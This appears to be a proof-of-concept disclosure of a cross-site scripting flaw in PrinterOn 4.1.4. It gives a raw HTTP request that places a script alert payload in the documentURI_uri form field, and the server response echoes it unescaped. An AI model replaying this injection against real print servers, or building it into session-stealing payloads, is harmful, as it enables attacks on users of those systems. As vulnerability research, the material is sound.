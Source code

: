 ##### Request:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: 172.17.20.183
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.20.183/cps/SelectOptions?jobId=561829783
Content-Type: multipart/form-data; boundary=---------------------------95469740417489422911864408348
Content-Length: 3499
Cookie: JSESSIONID=82C1F316328E1701A81C3D508BE22BD0; locale=en_US
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------95469740417489422911864408348
Content-Disposition: form-data; name="redirectUrl"

SelectOptions2
-----------------------------95469740417489422911864408348
Content-Disposition: form-data; name="jobId"

561829783
-----------------------------95469740417489422911864408348
Content-Disposition: form-data; name="documentURI_file"; filename=""
Content-Type: application/octet-stream


-----------------------------95469740417489422911864408348
Content-Disposition: form-data; name="documentURI_uri"

<script>alert("PrinterOn 4.1.4 XSS")</script>
-----------------------------95469740417489422911864408348
Content-Disposition: form-data; name="poCopies"
<--SNIP-->
```


##### Response:

```
HTTP/1.1 200 
Cache-Control: must-revalidate
Cache-Control: max-age=0
Cache-Control: no-cache
Cache-Control: no-store
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Pragma: no-cache
Content-Type: text/html;charset=utf-8
Content-Language: en-US
Content-Length: 6836
Date: Thu, 06 Sep 2018 06:18:26 GMT
Connection: close
Server: PrinterOn
<--SNIP-->
                <div class="col-md-3 text-center">
                    <script>alert("PrinterOn 4.1.4 XSS")</script>
                </div>
            </div>

            <div class="row">
                <div class="col-md-3"></div>
                <div class="col-md-3 text-center">
```